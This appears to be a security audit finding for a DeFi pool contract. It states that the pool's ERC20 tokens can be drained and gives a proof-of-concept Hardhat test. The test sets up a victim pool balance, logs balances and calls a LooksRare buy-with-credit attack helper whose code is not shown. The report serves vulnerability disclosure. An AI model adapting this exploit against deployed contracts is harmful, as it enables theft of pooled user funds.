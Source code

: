### Impact

Any ERC20 tokens which exist in the pool contract can be drained by an attacker.

### Proof of Concept

In `_pool_marketplace_buy_wtih_credit.spec.ts`, add this test:

    it("looksrare attack", async () => {
      const {
        doodles,
        dai,
        pool,
        users: [maker, taker, middleman],
      } = await loadFixture(testEnvFixture);
      const payNowNumber = "10";
      const poolVictimNumber = "990";
      const payNowAmount = await convertToCurrencyDecimals(
        dai.address,
        payNowNumber
      );
      const poolVictimAmount = await convertToCurrencyDecimals(
        dai.address,
          poolVictimNumber
      );
      const totalAmount = payNowAmount.add(poolVictimAmount);
      const nftId = 0;
      // mint DAI to offer
      // We don't need to give taker any money, he is not charged
      // Instead, give the pool money
      await mintAndValidate(dai, payNowNumber, taker);
      await mintAndValidate(dai, poolVictimNumber, pool);
      // middleman supplies DAI to pool to be borrowed by offer later
      //await supplyAndValidate(dai, poolVictimNumber, middleman, true);
      // maker mint mayc
      await mintAndValidate(doodles, "1", maker);
      // approve
      await waitForTx(
        await dai.connect(taker.signer).approve(pool.address, payNowAmount)
      );
      console.log("maker balance before", await dai.balanceOf(maker.address))
      console.log("taker balance before", await dai.balanceOf(taker.address))
      console.log("pool balance before", await dai.balanceOf(pool.address))
      await executeLooksrareBuyWithCreditAttack(
        doodles,
        dai,
        payNowAmount,
        totalAmount,
        0,
        nftId,
        maker,
        taker
      );
